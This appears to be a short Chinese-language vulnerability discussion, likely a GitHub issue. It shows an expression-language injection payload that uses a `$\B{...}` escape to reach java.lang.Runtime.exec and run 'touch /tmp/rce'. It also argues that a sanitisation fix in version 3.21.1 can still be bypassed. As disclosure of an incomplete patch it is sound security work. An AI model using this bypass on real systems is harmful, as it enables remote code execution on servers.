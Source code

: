 原本的字符串为`Missing roles: [$\B{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}]`

然后第一次处理后的结果

![image](img/f44f71badb262ddd59bb2b54f0b31c57.png)

第二次处理后的结果

![image](img/33ca815930a8bee1333a38f01c5023b2.png)

最后解析的还是`${xxxx}`这样子。

我在3.21.1版本测试`$\\\B{}`这样也是可以执行的,但是增加替换规则只是限制了`A`啊,那这样不就还是可以绕过嘛?

![image](img/b8637659c7aa8ccf970991d149d7ea8d.png)
